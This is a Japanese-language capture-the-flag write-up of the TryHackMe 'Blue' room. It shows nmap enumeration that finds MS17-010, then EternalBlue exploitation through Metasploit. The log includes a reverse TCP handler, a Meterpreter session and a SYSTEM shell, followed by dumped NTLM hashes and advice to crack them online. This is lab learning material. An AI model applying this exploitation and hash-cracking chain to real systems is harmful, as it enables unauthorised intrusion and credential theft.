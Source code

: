 ```yaml
---
{"dg-publish":true,"permalink":"/try-hack-me-memo/machine/blue/"}
---
```


![](https://raw.githubusercontent.com/crum7/Obsidian/main/TryHackMe_Memo/Machine/images/Generic-Banner.svg)

- URL : https://tryhackme.com/r/room/blue
- #easy 
- OS :  #Windows
- Machine Author(s): 
- Hack Date: 2025-01-02,20:15

---

# Enumeration
どのポートが空いている?
```bash
PORT      STATE SERVICE            REASON          VERSION
135/tcp   open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 128 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 128
|_ssl-date: 2025-01-02T11:03:22+00:00; -1s from scanner time.
49152/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49158/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49159/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 02:83:7C:C9:21:C9 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h29m59s, deviation: 3h00m00s, median: -1s
| nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:83:7c:c9:21:c9 (unknown)
| Names:
|   JON-PC<00>           Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   JON-PC<20>           Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02 83 7c c9 21 c9 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 53248/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58458/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 11980/udp): CLEAN (Timeout)
|   Check 4 (port 57286/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-01-02T05:03:17-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-02T11:03:17
|_  start_date: 2025-01-02T10:58:51
```


nmapで脆弱性スキャン
ms17-010が見つかった。

ms17-010
- MSから始まる番号（例: MS17-010）は、**Microsoft Security Bulletinのセキュリティパッチの識別番号
- MS17-010
	- 意味
		- **MS**: Microsoft Security Bulletinの略
		- **17**: 公開年（2017年）
		- 10番目のセキュリティパッチ
	- 内容
		- 2017年に発生した**WannaCry**ランサムウェア攻撃で利用された「EternalBlue」エクスプロイトの脆弱性
		- 攻撃者が特別に細工されたメッセージをSMBv1サーバーに送信することで、リモートでコードを実行できる可能性があります。
		- MS17-010で修正された主な脆弱性には、以下が含まれます：
			- **CVE-2017-0143**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0144**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0145**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0146**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0147**: Windows SMBの情報漏洩の脆弱性
			- **CVE-2017-0148**: Windows SMBのリモートコード実行の脆弱性



```bash
oot@ip-10-10-195-190:~/HTBScript# nmap --script=*vuln* 10.10.154.44
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-02 11:12 GMT
Nmap scan report for 10.10.154.44.htb (10.10.154.44)
Host is up (0.032s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
MAC Address: 02:83:7C:C9:21:C9 (Unknown)

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 91.73 seconds
```



---

# Foothold

meterplaterでEternalBlueの脆弱性を使ってexploitした。
EternalBlueは、「Groom Allocations」とは、メモリヒープ（heap）の管理を操作して、ターゲットシステムの脆弱性を悪用している。
具体的には、脆弱性を引き起こす条件を満たすように、ヒープメモリを意図的に配置・解放する。そのため、たまに上手くいかなくなることがある。
自分は、`set GroomAllocations 20`にしたら、上手く行った。
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
[*] Started reverse TCP handler on 10.10.195.190:4444 
[*] 10.10.154.44:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.154.44:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.154.44:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.154.44:445 - The target is vulnerable.
[*] 10.10.154.44:445 - Connecting to target for exploitation.
[+] 10.10.154.44:445 - Connection established for exploitation.
[+] 10.10.154.44:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.154.44:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.154.44:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.154.44:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.154.44:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.154.44:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.154.44:445 - Trying exploit with 20 Groom Allocations.
[*] 10.10.154.44:445 - Sending all but last fragment of exploit packet
[*] 10.10.154.44:445 - Starting non-paged pool grooming
[+] 10.10.154.44:445 - Sending SMBv2 buffers
[+] 10.10.154.44:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.154.44:445 - Sending final SMBv2 buffers.
[*] 10.10.154.44:445 - Sending last fragment of exploit packet!
[*] 10.10.154.44:445 - Receiving response from exploit packet
[+] 10.10.154.44:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.154.44:445 - Sending egg to corrupted connection.
[*] 10.10.154.44:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 10.10.154.44
[*] Meterpreter session 1 opened (10.10.195.190:4444 -> 10.10.154.44:49219) at 2025-01-02 11:40:53 +0000
[+] 10.10.154.44:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.154.44:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.154.44:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > bash
[-] Unknown command: bash. Run the help command for more details.
meterpreter > shell
Process 1112 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

---
## Notes
なんか、他のアカウントのパスワードも知りたいらしい。
Windowsのパスワードのハッシュの構成

`<ユーザー名>:<RID>:<LMハッシュ>:<NTLMハッシュ>:::`

- **ユーザー名**: Windowsアカウント名
- **RID**: 相対識別子（ユーザー固有ID）
- **LMハッシュ**: 古いLAN Managerハッシュ（未使用の場合は`aad3b435b51404eeaad3b435b51404ee`）
- **NTLMハッシュ**: NTLMv1またはv2ハッシュ（クラック対象）

jonのパスワードを知るためには、一番最後のffb43f0de35be4d9917ac0cc8ad57f8dの部分を
https://crackstation.net/
でクラックすればいい。
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

```

![](https://raw.githubusercontent.com/crum7/Obsidian/main/TryHackMe_Memo/Machine/images/Pasted%20image%2020250102210525.png)


---
## Flags

- **User**: `<md5>`
- **Root**: `<md5>`
---
